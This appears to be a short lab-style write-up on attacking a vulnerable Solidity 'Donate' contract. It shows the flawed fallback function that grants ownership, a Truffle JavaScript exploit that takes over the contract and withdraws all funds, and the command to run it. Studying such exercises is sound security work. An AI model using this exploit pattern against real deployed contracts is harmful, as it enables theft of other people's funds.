 ```solidity

  function() payable external {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }

```

```javascript
async function execute(callback) { 

    // get attacker address
    let badBoy = web3.eth.accounts[1]
    console.log(`badBoy address: ${badBoy}`)

    let contract = await DonateContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    console.log(`Contract owner: ${contractOwner}`)

    // Call the fallback function to become the owner of the contract
    console.log('start attacking contract');
    await contract.sendTransaction({
        from: badBoy ,
        value: web3.toWei(0.00000001, 'ether')
    })

    const changeContractOwner = await contract.owner.call()

    if( changeContractOwner == badBoy) {
        console.log(`Pwn contract successfully done , now ownership is transferring for badboy account ${badBoy}`)
    }

    console.log('withdraw all fund now with new owner')
    let response = await contract.withdraw({
        from: web3.eth.accounts[1]
    })

    console.log(`Withdrew all money at transaction ${response.tx}`)
    callback()

}
```

Let's become the owners of Donate.Note when i need to run the fallback function  i initiat transaction without specifiy function name
```javascript

await contract.sendTransaction({
        from: badBoy ,
        value: web3.toWei(0.00000001, 'ether')
    })
```
then let hit command `truffle exec pwn/donate.exploit.js` and check out the result.
